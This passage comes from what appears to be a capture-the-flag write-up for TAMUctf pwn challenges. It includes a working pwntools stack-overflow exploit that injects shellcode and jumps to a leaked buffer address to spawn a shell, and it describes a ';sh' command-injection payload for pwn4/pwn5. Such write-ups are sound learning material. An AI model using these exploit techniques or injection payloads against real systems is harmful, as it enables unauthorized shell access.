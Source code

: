 Now we just need a leak for the stack address, so that we can set the return
address to jump to our stack! Luckily, the binary did that for me!

I had to switch to using `pwntools` for this one:
```python
from pwn import *

context.update(arch='i386', os='linux')
sc = shellcraft

#p = process('./pwn3.bin')
p = remote('pwn.tamuctf.com', 4323)
p.recvuntil('journey 0x')

buffptr = int(p.recvuntil('!', drop=True), 16)
padsize = 0x12a + 4

pay = asm(sc.sh())
pay += 'A' * (padsize - len(pay))
pay += p32(buffptr)
p.sendline(pay)

p.recvline()
p.interactive()
```

And this will give me shell!

### pwn4 and pwn5
Haha these two were broken. pwn4 let you input any length of command, but pwn5
has a restriction to four characters. You can get a shell for both by executing
`;sh` via command injection. Then you just type `cat flag.txt` once you get
shell... too easy... next!

### pwn6
EDIT: yeah uhmm.... my solution was actually unintentional (and the real
solution was way harder to employ). 

> Okay kids you learned your lesson! ALWAYS check your code twice and run it
  through a few *experienced* pwners before actually releasing it for others to
  break it... especially for large bloated code!!

Okay this was way too bloated! Uhhmm... okay this was quite annoying.

First I think it would be good if I explained what this program did. Essentially
there's a client program that talked to a server program. This server is the one
that is located on a VPN connection. **BOTH** the client and server programs are
very vulnerable (Idk if this was intentional), but we need to attack the server
only. Also I forgot to mention, the server requires an authentication of
username and password before getting access to most of the functions, except we
don't have passwords (and it looks like the SQL commands used are not
vulnerable). 

When you are not logged in, basically, there was very little commands that can
be issued, and if that command is invalid, the server will print out a log of
that. This will be important, as we see later... Anyways, a side-note is the
server does not block one command (`create_account`) which might be vulnerable
to something, but I chose not to look at that for now. 

